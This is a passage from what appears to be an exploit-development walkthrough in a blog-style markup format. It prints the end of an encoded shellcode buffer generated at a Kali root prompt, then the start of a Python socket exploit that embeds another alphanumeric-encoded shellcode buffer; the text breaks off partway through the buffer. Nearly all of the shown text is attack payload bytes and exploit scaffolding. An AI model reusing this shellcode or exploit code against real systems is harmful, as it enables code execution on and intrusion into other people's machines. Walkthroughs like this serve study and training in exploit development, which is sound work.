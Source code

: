 buf += b"\x6f\x6b\x32\x69\x7a\x46\x62\x4a\x6c\x50\x31\x46\x4f"
buf += b"\x67\x43\x38\x32\x79\x54\x65\x70\x74\x63\x31\x79\x6f"
buf += b"\x56\x75\x74\x45\x67\x50\x54\x34\x6a\x6c\x6b\x4f\x50"
buf += b"\x4e\x4d\x38\x44\x35\x38\x6c\x4f\x78\x6c\x30\x34\x75"
buf += b"\x75\x52\x51\x46\x4b\x4f\x37\x65\x43\x38\x6f\x73\x70"
buf += b"\x6d\x6f\x74\x79\x70\x61\x79\x49\x53\x30\x57\x70\x57"
buf += b"\x71\x47\x70\x31\x68\x76\x61\x5a\x4c\x52\x32\x39\x6e"
buf += b"\x76\x47\x72\x39\x6d\x30\x66\x46\x67\x4f\x54\x6c\x64"
buf += b"\x6d\x6c\x4b\x51\x59\x71\x62\x6d\x4d\x74\x4b\x74\x4e"
buf += b"\x30\x46\x66\x79\x70\x4e\x64\x50\x54\x4e\x70\x71\x46"
buf += b"\x6e\x76\x62\x36\x71\x36\x6f\x66\x50\x4e\x52\x36\x51"
buf += b"\x46\x32\x33\x42\x36\x51\x58\x33\x49\x76\x6c\x4f\x4f"
buf += b"\x51\x76\x4b\x4f\x5a\x35\x43\x59\x57\x70\x30\x4e\x50"
buf += b"\x56\x6e\x66\x6b\x4f\x6e\x50\x43\x38\x7a\x68\x64\x47"
buf += b"\x6b\x6d\x53\x30\x59\x6f\x69\x45\x65\x6b\x57\x70\x4d"
buf += b"\x4d\x6c\x6a\x49\x7a\x33\x38\x73\x76\x65\x45\x45\x6d"
buf += b"\x63\x6d\x39\x6f\x57\x65\x4f\x4c\x4a\x66\x71\x6c\x39"
buf += b"\x7a\x61\x70\x4b\x4b\x69\x50\x72\x55\x79\x75\x37\x4b"
buf += b"\x61\x37\x4a\x73\x63\x42\x70\x6f\x52\x4a\x69\x70\x31"
buf += b"\x43\x39\x6f\x58\x55\x41\x41"

root@kali:~# 
{% endhighlight %}

Then, put the payload into the python exploit code.
{% highlight python %}
import socket
import sys, time

buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += b"\x47\x42\x39\x75\x34\x4a\x42\x49\x6c\x6b\x38\x75\x32"
buf += b"\x6d\x30\x49\x70\x49\x70\x61\x50\x43\x59\x49\x55\x50"
buf += b"\x31\x55\x70\x30\x64\x44\x4b\x6e\x70\x30\x30\x72\x6b"
buf += b"\x51\x42\x4a\x6c\x64\x4b\x61\x42\x4b\x64\x32\x6b\x30"
buf += b"\x72\x4b\x78\x4a\x6f\x64\x77\x50\x4a\x4b\x76\x6c\x71"
buf += b"\x79\x6f\x46\x4c\x4f\x4c\x33\x31\x61\x6c\x7a\x62\x6c"
buf += b"\x6c\x6d\x50\x77\x51\x48\x4f\x5a\x6d\x6b\x51\x56\x67"
buf += b"\x47\x72\x5a\x52\x61\x42\x72\x37\x74\x4b\x30\x52\x4e"
buf += b"\x30\x42\x6b\x6e\x6a\x6d\x6c\x62\x6b\x50\x4c\x6b\x61"
buf += b"\x62\x58\x6a\x43\x50\x48\x4a\x61\x78\x51\x52\x31\x52"
buf += b"\x6b\x31\x49\x4f\x30\x7a\x61\x37\x63\x42\x6b\x61\x39"
buf += b"\x5a\x78\x37\x73\x6e\x5a\x6e\x69\x44\x4b\x30\x34\x44"
buf += b"\x4b\x7a\x61\x36\x76\x6d\x61\x59\x6f\x44\x6c\x59\x31"
buf += b"\x78\x4f\x6a\x6d\x49\x71\x59\x37\x4c\x78\x57\x70\x51"
buf += b"\x65\x4b\x46\x6d\x33\x61\x6d\x68\x78\x4d\x6b\x61\x6d"
buf += b"\x6f\x34\x31\x65\x7a\x44\x51\x48\x64\x4b\x6f\x68\x6c"
buf += b"\x64\x59\x71\x36\x73\x73\x36\x54\x4b\x7a\x6c\x30\x4b"
buf += b"\x62\x6b\x61\x48\x4d\x4c\x4a\x61\x56\x73\x42\x6b\x6c"
buf += b"\x44\x42\x6b\x6b\x51\x6a\x30\x52\x69\x4f\x54\x4d\x54"
buf += b"\x4f\x34\x6f\x6b\x6f\x6b\x63\x31\x52\x39\x71\x4a\x4e"
buf += b"\x71\x69\x6f\x47\x70\x6f\x6f\x6f\x6f\x71\x4a\x44\x4b"
buf += b"\x4a\x72\x7a\x4b\x52\x6d\x71\x4d\x50\x68\x50\x33\x4e"
buf += b"\x52\x59\x70\x6b\x50\x32\x48\x54\x37\x63\x43\x30\x32"
buf += b"\x4f\x6f\x62\x34\x43\x38\x6e\x6c\x71\x67\x4f\x36\x4b"
buf += b"\x57\x49\x6f\x36\x75\x74\x78\x54\x50\x6b\x51\x6d\x30"
buf += b"\x6b\x50\x4b\x79\x75\x74\x62\x34\x32\x30\x72\x48\x4b"